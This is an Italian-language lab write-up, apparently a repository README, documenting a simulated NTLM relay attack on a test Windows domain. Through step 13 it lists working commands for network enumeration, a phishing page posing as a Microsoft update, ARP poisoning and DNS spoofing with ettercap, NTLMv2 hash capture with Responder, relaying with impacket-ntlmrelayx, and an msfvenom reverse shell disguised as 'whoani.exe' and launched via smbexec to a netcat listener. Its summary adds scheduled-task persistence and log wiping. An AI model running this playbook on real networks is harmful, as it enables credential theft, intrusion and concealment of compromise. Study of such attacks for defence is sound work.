





# NTLM-Relay Attack

## Threath Model: L'*attaccante* è un computer della rete del *target* (AiTM)

### NTLM Relay ###
NTLM Relay è un tipo di attacco informatico che sfrutta le debolezze del protocollo di autenticazione NTLM (NT LAN Manager) utilizzato principalmente nei sistemi Windows. In questo attacco, un *attaccante* intercetta le richieste di autenticazione NTLM tra un client e un server e le inoltra a un server di destinazione, ottenendo accesso non autorizzato.

### Infrastruttura creata per la simulazione ###
 - Windows 2019 Server - Domain Controller denominato "NTLM-DC"
 - Server (win 2019) denominato "NTLM-SRV01"
 - Macchina Vittima (win 2019) denominata "MTLMvictim"
 - Macchina Attaccante (Kali Linux) 

 ### Sintesi dell'attacco ###
 Preliminarmente si è effettuata una fase di "enumerazione" della rete *target* (T1046 Mitre Att&ck)............... attraverso i software "NMAP", "CRACKMAPEXEC", "NBTSCAN".
 Per rendere possibile l'attacco si è partiti da una mail di "spear phishing" contenente un link malevolo (T1566.002  Att@ck) in cui si informa la "vittima" che è necessario effettuare il "download" di un aggiornamento "critico" del sistema operativo, da un sottodominio "microsoft.com". Per redirigere il link "malevolo" verso la macchina attaccante si è utilizzato un attacco "DNS Spoofing" (T1584.002 Att&ck) [Software ETTERCAP]. Per rendere "credibile" il sito da cui effettuare l'*aggiornamento* si è creata una fittizia pagina "microsoft" fornita da un server web in esecuzione sulla macchina dell'*attaccante* che riproduce il sito ufficiale e sulla quale è presente un pulsante "Download" che redirige alla macchina dell'*attaccante*. Per carpire le credenziali utente dalla macchina *vittima* si è utilizzato sulla macchina *attaccante* il software "RESPONDER" che intercetta le richieste LLMNR (Link-Local Multicast Name Resolution) e NBT-NS(NetBIOS Name Service) che la macchina *vittima* utilizza quando non riesce a 'connettersi' ad un 'servizio' o un 'host' utililizzando DNS. "RESPONDER" risponde fingendosi l'host richiesto. La *vittima* invia le credenziali NTLM per autenticarsi. L'NTLMv2 intercettato può essere utilizzato:
 -  per ottenere le credenziali in 'chiaro' mediante 'password cracking offline" (T1110.002 Att&ck) [john_the_ripper, hashcat]
 - per attacchi 'pass_the_hash' (T1550.002 Att&ck). 
 
 Al fine di effettuare NTLM_Relay_Attack (T1557.001 Att&ck) si è utilizzato il software "NTLMRELAYX" che intercettando le credenziali della macchina *vittima* (NTLM-victim) carpite nel tentativo di "download dell'aggiornamento" (in realtà la *vittima* cerca di connettersi alla macchina *attaccante*),  le utilizza per autenticarsi sulla macchina *target* (NTLM-SRV01). Tale operazione viene effettuata attivando l'opzione che avvia un server "SOCKS" locale che permette all'*attaccante* di eseguire ulteriori operazioni di rete sulla macchina *target*.

 Una volta acceduti, per garantire la "persistenza"  si è creato un file eseguibile windows che avvia una "reverse shell" (T1219 Att&ck) già 'settata' per connettersi all'indirizzo IP dell'*attaccante* ad una determinata porta. A supporto si è utilizzato il software "MSFVENOM". 

 Per il trasferimento della 'reverse-shell' sul *target* (NTLM-SRV01) si è utilizzato il software "PROXYCHAIN4" che sfruttando il server 'socks' aperto con 'ntlmrelayx' permette di eseguire il software "SMBCLIENT" utilizzato per interagire con condivisioni di rete "SMB" sul *target*.

 La "reverse-shell" è stata posizionata nella cartella "C:\Windows\System32" sfruttando il fatto che le credenziali utilizzate nel relay hanno 'diritti amministrativi' ed il file è stato denominato 'whoani.exe' nel tentativo di 'confonderlo' con il già presente "whoami.exe". 

 Sulla macchina *attaccante* si è avviato il software "NC (netcat)" settandolo in ascolto sulla porta impostata nella "reverse-shell". 

 Per 'avviare' il processo della 'reverse-shell' si è sfruttato ancora 'proxychain4' per eseguire il software "SMBEXEC".  

 Al fine di rendere 'definitiva' la persistenza nel sistema *target* si è impostata una "Scheduled Task" (T1053.005 Att&ck) che in fase di avvio del sistema *target* mette in esecuzione la 'reverse-shell'. 

 Per eliminare le 'tracce' dell'attività eseguita sul *target* si è utilizzato un comando "POWERSHELL" impartito attraverso 'smbexec' che rimuove tutti i "log di sistema" sul *target*.

 -------------------

 ### Dettaglio dell'attacco passo-passo ###

#### Passo 1 - Enumerazione NMAP ####

```python
 sudo nmap -sV 10.0.0.0/24 (identificazione servizi in esecuzione sulla rete)
 ```
Da questa prima fase di 'enumerazione' si recuperano le seguenti informazioni:
- nr.03 macchine windows con indirizzi **IP 10.0.0.1, 10.0.0.10, 10.0.0.100**
- macchina 10.0.0.100 = Domain controller; nome macchina = **NTLM-DC**; nome dominio = **NTLMLAB.local**; ha il servizio **DNS** attivo.

#### Passo 2 - Enumerazione CRACKMAPEXEC ####

 ```python
 sudo crackmapexec smb 10.0.0.0/24 --gen-relay-list /home/kali/Desktop/targets1.txt (identificazione servizi SMB esecuzione sulla rete e generazione di lista in file .txt)
 ```

Da questa fase di 'enumerazione' si recuperano le seguenti informazioni:
- nr.02 macchine windows con SMB attivo utilizzabile per NTLM Relay con indirizzi **IP 10.0.0.1, 10.0.0.10**

#### Passo 3 - Enumerazione NBTSCAN ####

 ```python
 sudo nbtscan 10.0.0.0/24 (identificazione nomi 'netbios' delle macchine sulla rete)
 ```

Da questa fase di 'enumerazione' si recuperano le seguenti informazioni:
- nr.03 macchine windows con nomi macchina **VICTIM, SRV01, NTLM-DC**

#### Passo 4 - Preparazione Finta Pagina Microsoft ####
- Creazione di Finta Pagina HTML con CSS e immagini
- Caricamento del materiale HTML 'prodotto' nella cartella '/var/www/html/' sulla macchina *attaccante*
- Avvio del server web 'Apache' sulla macchina *attaccante*
- Risultato della 'Finta Pagina Microsoft':

 

#### Passo 5 - Configurazione ed avvio del DNS-Spoofing ####
Per effettuare il DNS-Spoofing e reindirizzare la *vittima* sulla macchina *attaccante* si è utilizzato il software **ettercap**. Per la configurazione è stato modificato il file di configurazione denominato "**etter.dns**" al quale è stata aggiunta una riga a fine file contenente l'indirizzo internet 'fasullo' e la destinazione alla quale deve 'puntare' (IP attaccante = 10.0.0.7).

`www.criticalupdate.technet.microsoft.com     10.0.0.7`

Avvio prima sessione **ettercap**:

`sudo ettercap -T -q -i eth0 -M arp:remote /10.0.0.1// /10.0.0.100//`

- Il comando completo avvia ettercap per eseguire un attacco di avvelenamento ARP (ARP poisoning) in modalità testo e in modo silenzioso sulla rete specificata dall'interfaccia eth0. L'attacco viene eseguito tra i due host specificati (10.0.0.1 [vittima] e 10.0.0.100 [domain controller]), permettendo a ettercap di intercettare il traffico tra questi due host. In pratica, ettercap convince ciascuno degli host che l'attaccante è l'altro host, reindirizzando così il traffico attraverso l'attaccante, che può poi analizzare, modificare o registrare i dati trasmessi.

Avvio seconda sessione **ettercap**: 

`sudo ettercap -T -q -i eth0 dns_spoof`
* Il plugin **dns_spoof** intercetta le richieste DNS che passano attraverso la rete. Quando una richiesta DNS viene intercettata, **ettercap** risponde con una risposta falsa, reindirizzando il traffico verso un indirizzo IP specificato dall'*attaccante*.

> ### A questo punto si presuppone che la *vittima* abbia ricevuto la mail di 'spear phishing', abbia navigato verso l'indirizzo "http://www.criticalupdate.technet.microsoft.com" e abbia 'cliccato' sul pulsante 'Download' per effettuare lo scaricamento del 'aggiornamento' (fasullo). ###


#### Passo 7 (opzionale) - Cattura delle credenziali dell *vittima* con RESPONDER ####
Sulla macchina *attaccante* si avvia il software **responder**:

`sudo responder -i eth0 -A`

* In questa modalità, Responder raccoglie informazioni sulle richieste di risoluzione dei nomi che osserva, registrando quali servizi e host sono richiesti sulla rete. Questo può includere richieste per protocolli come LLMNR (Link-Local Multicast Name Resolution), NBT-NS (NetBIOS Name Service), e MDNS (Multicast DNS).

Nel momento in cui la *vititma* 'clicca' sul pulsante 'Download' (che in realtà punta alla macchina *attaccante*) **responder** cattura le credenziali **NTLMv2** della *vittima*:



Le credenziali **NTLMv2 hash** catturate possono essere utilizzate in modalità *offline* per effettuare "password-cracking" attraverso *tools* come **John the Ripper** o **Hashcat**.

#### Passo 8 - NTLM-Relay verso server *target* (IP 10.0.0.10) ####
Per effettuare l'attacco NTLM-Relay vero e proprio si è utilizzato il software **ntlmrelayx** compreso nella 'suite' di strumenti **impacket**.

`sudo impacket-ntlmrelayx -tf /home/kali/Desktop/target1.txt -smb2 -socks`

* **impacket-ntlmrelayx** ascolta le richieste di autenticazione NTLM che passano attraverso la rete. Quando intercetta una richiesta, 'inoltra' le credenziali NTLM verso uno dei target specificati nel file /home/kali/Desktop/target1.txt (ottenuto nel **Passo 2**) usando il protocollo **SMBv2**. Viene avviato un **Server SOCKS** che consente di instradare il traffico di rete attraverso le connessioni 'inoltrate' ed eseguire operazioni di rete sul *target*.  



#### Passo 9 - NTLM-Relay - **proxychain4** ####
**ntlmrelayx** con l'opzione '-socks' (Passo 8) permette attraverso l'utilizzo del software **proxychain4** di eseguire azioni sulla macchina *target*. Mantenendo attiva la shell del 'Passo 8' in una nuova shell viene utilizzato **proxychain4** per eseguire il software **smbclient** sul *target* utilizzando le credenziali della *vittima*.
Prima dell'utilizzo di **proxychain4** è necessaria una modifica del file di configurazione "proxychain4.conf" per impostare la porta del proxy al valore '1080' (default 9050 tor) `socks4 127.0.0.1 1080`

`sudo proxychains4 impacket-smbclient ntlmlab/victim@10.0.0.10`



**smbclient** permette di avere accesso alle risorse del *target* (con i privilegi dell'utente connesso nel caso specifico privilegi amministrativi quindi controllo completo.)

#### Passo 10 - Creazione della **Reverse-Shell** ####
Si è provveduto a creare un file eseguibile che avvia una **reverse-shell** 'settata' per comunicare con la macchina attaccante (**IP=10.0.0.7**) sulla '**porta 4444**' attraverso il software **msfvenom**. Virne denominata 'whoani.exe' per 'confonderla' con un 'eseguibile' presente in 'C:\Windows\System32' denominato 'whoami.exe'. 

 `msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.7 LPORT=4444 -f exe -o whoani.exe`

#### Passo 11 - Upload della **Reverse-Shell** sul *target* ####

Per effettuare l'upload della 'reverse-shell' implementata al 'Passo 10' si è utilizzato '**smbclient**' (via **proxychain4/ntlmrelayx[socks]**) del 'Passo 9.

* comando `shares` per visualizzare le condivisioni disponibili.
* comando `use C$` per selezionare la risorsa C$ del SO.
* comando `cd` per il 'cambio directory di destinazione'.
* comando `put` per 'upload' del file 'whoani.exe' nella cartella 'C:\Windows\ System32\'.

> Criticità riscontrata: Al fine di rendere possibile l'upload della reverse-shell di è dovuto disabilitare l'antivirus (defender) del *target* in quanto la mancanza di un offuscamento adeguato del codice dell'eseguibile consente il rilevamento di sofwtware potenzialmente dannoso da parte del *target*.

#### Passo 12 - Avvio di **Netcat (nc)** sulla macchina *attaccante* in 'attesa' della connessione da parte della **reverse-shell**  ####

`nc -nlvp 4444`

Il comando mette **Netcat** in modalità di ascolto su una porta specifica (4444) in attesa di connessioni TCP in ingresso disabilitando la risoluzione 'DNS' per rendere la connessione più veloce.

#### Passo 13 - Esecuzione della **reverse-shell** sulla macchina *target* attraverso il software **smbexec** (via **proxychain4/ntlmrelayx[socks]**)  ####

`sudo proxychains4 impacket-smbexec ntlmlab/victim@10.0.0.10`

**smbexec** è uno strumento  del pacchetto Impacket che permette di eseguire comandi su un sistema remoto tramite il protocollo SMB.

